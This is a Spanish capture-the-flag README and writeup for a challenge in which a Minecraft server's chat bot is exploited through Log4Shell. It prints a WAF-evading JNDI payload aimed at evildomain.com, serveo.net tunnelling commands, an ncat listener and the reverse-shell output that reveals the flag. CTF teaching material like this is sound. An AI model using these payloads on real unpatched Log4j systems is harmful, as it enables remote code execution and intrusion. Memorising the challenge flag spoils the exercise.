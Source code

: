 ## Redstone forge

Descripción: Mis amigos y yo hemos decidido crear un servidor de Minecraft público para conocer gente nueva! No creo, que pase nada malo, no..? [Versión 1.13.1-1.20.1]

Pista: Esta web te podrá ayudar: https://serveo.net

Flag: ETSIIT_CTF{34sY_Pe4Sy}

**Writeup**

En este reto se nos da una IP con el puerto 25565. Un simple escaneo con `nmap` indica de que se trata de un servidor de Minecraft

```
PORT      STATE SERVICE   VERSION

25565/tcp open  minecraft Minecraft 1.12.2 (Protocol: 127, Message: Hackiit Minecraft Server, Users: 1/100)
```

Al entrar en el servidor con cualquier cliente (oficial y no oficial) se puede observar que hay un usuario llamado HackiitBot y que el único comando que se puede usar es `/msgbot`. Se presupone por el nombre y por la respuesta al usar el comando que lo único que hace es enviarle un mensage privado a la cuenta BOT.

Probando un poco el comando de mensajería podemos llegar a la conclusión que se trata de Log4Shell, que una vulnerabilidad reciente que afecta a la biblioteca Log4j y que afectó a Minecraft entre otros servicios y aplicaciones. 

El comando por defecto para explotar Log4j no va a funcionar a causa de un WAF que bloquea algunos caracteres y palabras. Entre la lista del WAF están `jndi`, `ldap`

Sin embargo, estas limitaciones no son suficientes para crear un payload que no use ningún elemento de la lista bloqueada.
En el caso de `ldap` y `jndi` se pueden separar en caracteres con el lookup  `${lower:j}`. Juntando muchos lookups distintos se puede formar una palabra por lo que `jndi` se quedaría como:

```
${lower:j}ndi:${lower:l}${lower:d}a${lower:p}
```

El comando completo quedaría tal que así:

```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://evildomain.com/z}
```

Para conseguir una shell se podría usar tools como [Log4shell-POC](https://github.com/kozmer/log4j-shell-poc) o simplemente crear un servidor jndi y un servidor web con un archivo de java compilado con el código a ejecutar.

---

Para abrir un puerto tcp se puede usar [serveo.net](https://serveo.net/)

```
PS C:\Users\Ismael> ssh -R 1389:<ip>:1389 serveo.net
Forwarding TCP connections from serveo.net:1389

PS C:\Users\Ismael> ssh -R 8001:<ip>:8001 serveo.net
Forwarding TCP connections from serveo.net:8001

PS C:\Users\Ismael\Downloads> ssh -R 9001:<ip>:9001 serveo.net
Forwarding TCP connections from serveo.net:9001
```

Escuchamos en 9001 y ejecutamos el script

```
ncat.exe -lvnp 9001

python poc.py --userip serveo.net --webport 8001 --lport 9001
```

En minecraft, mandamos el siguiente mensaje:

```
/msgbot ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://serveo.net:1389/a}
```

En el netcat obtendremos una shell. La flag estará en flag.txt

```
PS C:\Users\Ismael> ncat.exe -lvnp 9001
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from [::1]:58779.
ls
bot.jar
bot.jar.cache
flag.txt
cat flag.txt
ETSIIT_CTF{34sY_Pe4Sy}
```

---
**Instrucciones**

Abrir docker-compose.yml y editar la variable de entorno `CLIENT_IP=<IP>` a IP del servidor donde se aloje:

```
sudo docker-compose up
```

El servidor se debería iniciar automáticamente

![alt text](assets/mc.png)

Creditos a [@nimmis](https://github.com/nimmis/docker-spigot) por la imagen de Docker


